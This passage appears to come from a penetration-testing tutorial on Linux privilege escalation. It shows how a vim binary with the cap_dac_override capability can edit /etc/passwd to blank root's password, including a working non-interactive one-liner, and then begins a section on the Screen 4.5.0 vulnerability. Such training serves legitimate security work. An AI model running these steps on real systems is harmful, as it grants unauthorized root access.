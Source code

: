 ```shell
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip

```

For example, the `/usr/bin/vim.basic` binary is run without special privileges, such as with `sudo`. However, because the binary has the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.

Let us take a look at the `/etc/passwd` file where the user `root` is specified:

```shell
cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash

```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```shell
/usr/bin/vim.basic /etc/passwd

```

We also can make these changes in a non-interactive mode:

```shell
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash

```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.


# Vulnerable Services

* * *

Many services may be found, which have flaws that can be leveraged to escalate privileges. An example is the popular terminal multiplexer [Screen](https://linux.die.net/man/1/screen). Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.

#### Screen Version Identification

```shell
screen -v

Screen version 4.05.00 (GNU) 10-Dec-16

```
